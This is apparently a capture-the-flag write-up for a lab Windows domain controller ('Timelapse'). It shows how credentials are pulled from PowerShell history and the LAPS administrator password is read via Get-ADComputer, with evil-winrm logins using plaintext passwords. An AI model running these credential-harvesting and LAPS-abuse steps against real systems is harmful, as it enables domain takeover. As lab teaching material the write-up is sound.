 
# Lateral Movement
- The command line history shows new login credentials. 
- Evil-winrm using the obtained credentials `svc_deploy`.
# Privilege Escalation
- `svc_deploy` is a member of `LAPS_Readers` group.
- Running `Get-ADComputer DC01 -property 'ms-mcs-admpwd'` shows the password for the administrator.
- Evil-winrm as admin. 
 
 ## Enumeration
```powershell
# Read history
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![[/assets/images/timelapse19.png]]
## Notes
```text
svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV
```

## Attempts
### WinPEAS
Program 'peas.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted software.
![[/assets/images/timelapse17.png]]
## Evil-winrm as `svc_deploy`
```sh
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```

![[/assets/images/timelapse20.png]]

![[/assets/images/timelapse21.png]]
-> *LAPS_Readers* group. 

The "Local Administrator Password Solution" (LAPS) is used to manage local account passwords of Active Directory computers. 
### Read Password
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```

![[/assets/images/timelapse22.png]]
## Evil-winrm as admin
```sh
evil-winrm -i timelapse.htb -S -u administrator -p '55T{8XL047sxk(5Iv}fK3o02'
```

![[/assets/images/timelapse23.png]]

